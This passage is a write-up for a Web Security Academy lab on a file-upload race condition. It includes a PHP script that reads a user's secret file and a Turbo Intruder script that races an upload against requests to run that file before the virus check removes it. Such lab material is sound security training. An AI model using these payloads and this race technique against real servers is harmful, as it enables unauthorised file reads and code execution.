 then I hit upload on the web page in the browser to send the file, and after about one minute I could get some 200 responses in turbo intruder containing password for carlos! :)

<br>
### Solution 2:  Web Security Academy's Solution
The Web Security Academy solved this lab in a better and more precise way that can be used in the future race condition situations without bombarding the server with many requests:

As you can see from the hint source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed.

<br>
#### Note 1
*Due to the generous time window for this race condition, it is possible to solve this lab by manually sending two requests in quick succession using Burp Repeater. The solution described here teaches you a practical approach for exploiting similar vulnerabilities in the wild, where the window may only be a few milliseconds.*

<br>

1.  Log in and upload an image as your avatar, then go back to your account page.

2.  In Burp, go to **Proxy > HTTP history** and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>`.

3.  On your system, create a file called `exploit.php` containing a script for fetching the contents of Carlos's secret. For example:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

{:start="4"}
4.  Log in and attempt to upload the script as your avatar. Observe that the server appears to successfully prevent you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.

5.  If you haven't already, add the Turbo Intruder extension to Burp from the BApp store.

6.  Right-click on the `POST /my-account/avatar` request that was used to submit the file upload and select **Extensions > Turbo Intruder > Send to turbo intruder**. The Turbo Intruder window opens.

7.  Copy and paste the following script template into Turbo Intruder's Python editor:

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
